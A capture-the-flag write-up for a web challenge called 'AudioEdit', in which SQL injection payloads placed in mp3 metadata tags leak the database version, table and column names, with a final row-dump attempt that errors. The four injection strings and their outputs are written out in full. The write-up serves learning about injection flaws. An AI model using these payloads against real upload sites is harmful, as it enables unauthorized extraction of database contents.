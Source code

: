 ```yaml
---
layout: writeup
title: 'Web Exploitation 200: AudioEdit'
level:
difficulty:
points: 200
categories: [web exploitation]
tags: []
flag:
---
```

**Challenge**   
I made a cool site to edit audio files. [Can you exploit it?][1]

**Solution**   
The website lets you upload mp3 files and then displays some metadata
and plays it for you.

It has to be a valid mp3 file

We try if we can put SQL injection in the exifdata and indeed we can:
(exiftool doesn't do exifdata updates for mp3 so we used easytag)

    foo', (SELECT VERSION())) -- -
    > Author: foo
    > Title: 5.5.49-0ubuntu0.14.04.1
    
    foo', (SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema=DATABASE())) -- -
    > Author: foo
    > Title: audioedit
    
    foo', (SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name='audioedit')) -- -
    > Author: foo
    > Title: id,file,author,title
    
    foo', (SELECT GROUP_CONCAT(CONCAT(id, ':', file, ':' , author, ':' , title )) FROM audioedit)) -- -
    > error inserting into database



[1]: http://107.170.122.6/audioedit/